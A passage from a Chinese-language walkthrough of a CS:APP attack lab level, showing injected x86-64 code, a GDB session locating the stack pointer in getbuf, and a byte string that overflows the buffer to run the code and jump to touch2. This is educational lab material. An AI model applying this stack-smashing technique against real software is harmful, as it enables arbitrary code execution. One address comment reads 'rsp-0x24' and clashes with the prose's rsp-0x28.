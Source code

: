 ```
l2.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq
```

我们将这段代码通过getbuf传到rsp-0x28处，再用类似level1的方法跳转到这里执行这段代码。现在整个程序逻辑就比较清晰了，getbuf执行完后进入我们的插入代码中，执行完后进入touch2。

```bash
[root@MiWiFi-R4A-srv target1]# gdb ctarget
GNU gdb (GDB) Red Hat Enterprise Linux 10.2-8.el9
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
...(省略了)
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret    
End of assembler dump.
(gdb) p $rsp
$1 = (void *) 0x5561dca0
(gdb) stepi
14	in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret    
End of assembler dump.
(gdb) p $rsp
$2 = (void *) 0x5561dc78
```

通过GDB我们轻松获得rsp的位置是0x5561dca0而rsp-0x28的位置自然是0x5561dc78了，这就是我们的跳转位置。

```
48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 插入代码段 */
78 dc 61 55 00 00 00 00 /* rsp-0x24 */
ec 17 40 00 00 00 00 00 /* 目标touch2入口地址 */
```
